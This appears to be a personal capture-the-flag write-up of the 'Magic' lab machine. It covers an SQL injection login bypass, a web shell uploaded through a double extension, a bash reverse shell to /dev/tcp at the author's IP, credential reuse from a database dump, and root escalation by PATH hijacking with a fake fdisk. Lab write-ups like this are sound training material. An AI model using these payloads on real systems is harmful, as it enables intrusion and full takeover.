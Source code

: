 # Magic

Magic

Sunday, 13 February 2022

1:52 pm

This is a Linux machine.

My IP is 10.10.16.9.

The target IP is 10.10.10.185.

&#x20;

&#x20;

Early port scan reveals that SSH and HTTP are open on the machine.

Detailed scan reveals the following.

!\[\[35\_Magic\_image001.png]]

&#x20;

Did a directory enumeration while visiting the website as well.

!\[\[35\_Magic\_image002.png]]

&#x20;

In the bottom left, there's this little thing.

&#x20;

!\[\[35\_Magic\_image003.png]]

Can sort of guess that we would need to do extension bypass attacks, through the use of double extensions or null byte.

&#x20;

We would need to log in somehow.

!\[\[35\_Magic\_image004.png]]

&#x20;

I'm not entirely sure about what engine or framework is being used, and I suppose that this is a custom built engine, judging by the stuff present on the screen.

Directory enumeration reveals thing that I cannot access.

!\[\[35\_Magic\_image005.png]]

&#x20;

Let's try intercepting the response and seeing what we can do with it.

&#x20;

!\[\[35\_Magic\_image006.png]]

&#x20;

Cool little response, seems that there is no protection or whatever. Looks pretty basic. Let's try SQLmap and NoSQLI.

Testing out some payloads, I was able to get one to work while SQLmap was working.' OR 1 --

This logged me in.

!\[\[35\_Magic\_image007.png]]

Now we can upload an image, but I suppose there's a bypass to this somehow.

Let's try uploading nothing first.

!\[\[35\_Magic\_image008.png]]

&#x20;

So there's these things that are allowed. Let's upload one and see where it goes.

We can see that this goes to the main page.

!\[\[35\_Magic\_image009.png]]

&#x20;

This was not there previously. Now we know how it works, let's try to upload a phpreverseshell or something.

!\[\[35\_Magic\_image0010.png]]

We can see that the firewall picked this up, so we need a different method.

&#x20;

I tried just including the web shell inside the code, and also just included a double extension and it worked!

{width="2.3541666666666665in" height="0.5729166666666666in"}

&#x20;

!\[\[35\_Magic\_image0012.png]]

&#x20;

{width="4.78125in" height="1.1770833333333333in"}

&#x20;

So from here, we just need to find out a way to inject the payload to test and see if it works.

From the directories I found, I enumerated further.

!\[\[35\_Magic\_image0014.png]]

We can see there's an uploads directory, and trying to access /images/uploads/test.php.jpg would display the picture!

!\[\[35\_Magic\_image0015.png]]

Trying to append a command into it, we can see that it works!

!\[\[35\_Magic\_image0016.png]]

&#x20;

Sick, now we just need a reverse shell.

&#x20;

Tried this one and it worked out well.

!\[\[35\_Magic\_image0017.png]]

&#x20;

Just a URL encoding of bash -c 'bash -I >& /dev/tcp/10.10.16.9/1234 0>&1.

&#x20;

!\[\[35\_Magic\_image0018.png]]

Within the code, there seems to be a password inside db.php5.

&#x20;

!\[\[35\_Magic\_image0019.png]]

Intriguing.

&#x20;

There's a user called theseus as well.

&#x20;

!\[\[35\_Magic\_image0020.png]]

Let's try an SSH. Does not work :C.

&#x20;

When checking this out, we can see that this is indeed a MySQL database. I was wondering if it was possible to dump the database, and googled about mysqldump, which is made to do that. Popped in the commands, and got out the database.

&#x20;

!\[\[35\_Magic\_image0021.png]]

&#x20;

!\[\[35\_Magic\_image0022.png]]

Found a username and password.

Tried to Su into theseus using this password, and worked.

&#x20;

&#x20;

!\[\[35\_Magic\_image0023.png]]

Ran LinEnum.sh, and found this file users can execute.

&#x20;

!\[\[35\_Magic\_image0024.png]]

I was not sure what this meant at the time, so I wondered about what I can do with it, as it seems to just print out well, system information.

&#x20;

There are a few lines that are interesting.

!\[\[35\_Magic\_image0025.png]]

&#x20;

Why is permission being denied here? Well, I don't know. I got a hint from a walkthrough and saw that there's an fdisk thing being denied access, and I wonder what that is and why it is being denied.

&#x20;

From here, I did some research on fdisk, which is actually a CLI that provides disk-partitioning functions. So right now, the machine cannot open fdisk, and I need to make an fdisk to allow for it to open and execute whatever is inside of it.

&#x20;

So basically, this executes the code as root, and I need to create something that relates to that. As such, I created one indeed.

Using this command, I quickly created one reverse shell into an fdisk executable.

!\[\[35\_Magic\_image0026.png]]

&#x20;

Got a listener port and but it did not work upon execution of sysinfo, because I realised that the fdisk was not being read at all. I need to change the PATH in order to allow for sysinfo to read my fdisk directly. Otherwise, it would keep not finding it. This is because of the fact that we are able to execute it, we need to change our env PATH to allow for the code to find the correct file and execute my reverse shell.

&#x20;

Googled how to change the path, and appended it to the paths available.

&#x20;

!\[\[35\_Magic\_image0027.png]]

Changed the port to 443, as the connection was not sustained, probably a firewall I did not check.

&#x20;

Ran sysinfo and gained a root shell on the listener port.

!\[\[35\_Magic\_image0028.png]]

I referred to the solutions for a hint about what to do with fdisk, where I learnt quite a bit about this environment PATH and how to filter through the output of LinEnum.sh.

&#x20;

Preferably, I would not use that script, as I should find this sort of thing myself. Downloading a script into a target machine is not good as anti-viruses or firewalls may pick up on it.
